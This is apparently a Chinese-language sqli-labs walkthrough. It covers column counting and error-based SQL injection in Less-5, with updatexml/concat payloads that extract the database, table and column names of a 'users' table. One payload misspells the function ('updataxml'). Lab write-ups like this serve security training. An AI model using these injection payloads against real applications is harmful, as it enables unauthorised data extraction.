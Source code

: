 2. 判断序列数

   为3列

   ![image-20250307223310893](https://gitee.com/PUqicnda/img/raw/master/20250307223311044.png)

   ![image-20250307223240720](https://gitee.com/PUqicnda/img/raw/master/20250307223240834.png)

3. 确认回显

   ![image-20250307223502760](https://gitee.com/PUqicnda/img/raw/master/20250307223502870.png)

   ![image-20250307223541438](https://gitee.com/PUqicnda/img/raw/master/20250307223541583.png)

4. 后续查询方法一样，不再赘述

# Less-5

**报错盲注**

1. ?id=1’，会报错，说明有报错注入

   ![image-20250307224138588](https://gitee.com/PUqicnda/img/raw/master/20250307224138754.png)

2. 加 --+，闭合成功

   ![image-20250307224308471](https://gitee.com/PUqicnda/img/raw/master/20250307224308587.png)

3. 使用报错函数(updatabase(1,2,3))，报错函数里面三个参数，写1,2,3占位置,我们可以操控的是第二个参数的位置
           所以第二个参数的位置换成concat()函数，这个函数也有两个参数，写两个1占位置,我们可以操控的地方也是第二个参数的位置 把第二个参数的位置换成()，里面写我们的子查询语句(select database()) 成功查出数据库名 后面查什么在子查询括号里面查就行

   ```
   ?id=1' and updataxml(1,concat(1,(select database())),3) --+
   ```

   ![image-20250307224748775](https://gitee.com/PUqicnda/img/raw/master/20250307224748893.png)

4. 查表名

   ```
   ?id=1' and updatexml(1,concat(1,(select  group_concat(table_name) from information_schema.tables where table_schema='security')),3)--+
   ```

   ![image-20250307225916495](https://gitee.com/PUqicnda/img/raw/master/20250307225916583.png)

5. 查列名

   ```
   ?id=1' and updatexml(1,concat(1,(select  group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users')),3)--+
   ```

   ![image-20250307230604800](https://gitee.com/PUqicnda/img/raw/master/20250307230605016.png)
